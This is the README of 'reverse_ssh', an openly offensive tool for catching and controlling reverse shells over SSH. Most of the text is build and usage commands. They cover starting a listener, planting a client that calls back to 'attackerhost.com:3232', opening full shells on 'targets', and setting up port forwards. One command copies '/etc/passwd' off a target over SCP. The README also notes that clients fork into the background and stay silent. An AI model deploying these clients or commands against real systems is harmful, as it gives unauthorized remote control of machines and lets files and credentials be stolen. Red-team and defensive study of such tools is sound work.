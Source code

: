 # Reverse SSH

Want to use SSH for reverse shells? Now you can.  

- Manage and connect to reverse shells with native SSH syntax
- Dynamic, local and remote forwarding with simple jumphost syntax
- Native SCP implementation for retrieving files from your targets
- Full windows shell even if the host is not supported by ConPty
- Mutual client & server authentication to create high trust control channels  
And more! 


```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+   RSSH  |
                    |    Reverse     |       |         |  Client |
                    |  SSH server    |       |         |         |
                    |                |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |   SSH   |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         |   RSSH  |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         |   RSSH  |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
git clone https://github.com/NHAS/reverse_ssh

cd reverse_ssh

make
cd bin/

# start the server
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

# copy client to your target then connect to the server
./client attackerhost.com:3232

# Get help text
ssh localhost -p 3232 help

# See clients
ssh localhost -p 3232 ls -t

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+


# Connect to full shell
ssh -J localhost:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Or using hostname 

ssh -J localhost:3232 root.wombo

```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.16** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.
Alternatively, you can use the --authorizedkeys flag to point to a file.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client yourserver.com:3232
```

You can then see what reverse shells have connected to you using `ls`:

```sh
ssh yourserver.com -p 3232 ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

Then typical ssh commands work, just specify your rssh server as a jump host. 

```sh
# Connect to full shell
ssh -J youserver.com:3232 root.wombo

# Run a command without pty
ssh -J youserver.com:3232 root.wombo ls

# Start remote forward 
ssh -R 1234:localhost:1234 -J youserver.com:3232 root.wombo ls

# Start dynamic forward 
ssh -D 9050 -J youserver.com:3232 root.wombo ls

# SCP 
scp -J youserver.com:3232 root.wombo:/etc/passwd .

```

## Fancy Features

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

### Full Windows Shell Support

Most reverse shells for windows struggle to generate a shell environment that supports resizing, copying and pasting and all the other features that we're all very fond of. 
This project uses conpty on newer versions of windows, and the winpty library (which self unpacks) on older versions. This should mean that almost all versions of windows will net you a nice shell. 

## Foreground vs Background (Important note about clients)

By default, clients will run in the background. When started they will execute a new background instance (thus forking a new child process) and then the parent process will exit. If the fork is successful the message "Ending parent" will be printed.

This has one important ramification: once in the background a client will not show any output, including connection failure messages. If you need to debug your client, use the `--foreground` flag.

